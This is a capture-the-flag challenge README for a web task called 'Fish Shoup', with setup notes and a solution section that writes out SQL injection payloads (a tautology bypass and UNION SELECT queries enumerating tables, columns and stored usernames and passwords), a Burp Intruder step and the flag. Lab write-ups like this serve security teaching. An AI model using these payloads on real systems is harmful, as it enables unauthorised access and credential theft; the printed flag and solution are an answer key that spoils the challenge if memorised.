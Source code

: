 # Fish Shoup

## Category
Web 50

## Question Text

>Help all marshmellow fart and skittle burp fishes!!!
>
>We forgot the credentials of our blog account because we have small brains!
>
>Log into it to get your awesome reward of helping us, we are nice creatures!
>
>But remember to keep it a secret! Shhh...
>Connect via `http://<ip address>:17456`

## Created by

@stopduckroll &amp; @paux &amp; @platy

## Setup Guide
Do `bash build.sh`

(It takes 15 seconds for the sql server to initialise. Everything should work after awhile)

## Distribution
None.

## Solution

1. When you first see the site, you will notice that you can search for fishes and also login
2. When you enter `'OR'1==1'#` you will notice that all entries comes out, meaning its vulnerable to sql injection
3. To view database name `asdf' UNION ALL SELECT null,null,database(),null,null #`
4. You can then use that to enter malicious sql code to view all table names `asdf' UNION ALL SELECT null,null,table_name,null,null FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'fishshoups' #`
5. From there you realise that there is a table storing user details,run this to see the collumn names `asdf' UNION ALL SELECT null,null,column_name,null,null FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'user_details_login' #` 
6. Crafting a new malicious string `asdf' UNION ALL SELECT null,user,password,null,role FROM user_details_login #` will allow you to see all the usernames
7. Now with all the username and passwords, you can use burpsuite to perform a "intruder attack on it"
8. Put the two payloads and put a regex for `GCTF`
9. Get flag

### Flag
`GCTF{m00ny_607_17}`


## Credits
CTF 101.

Thanks @Lflare for fixing mysql issues.

## Recommended Reads
None.
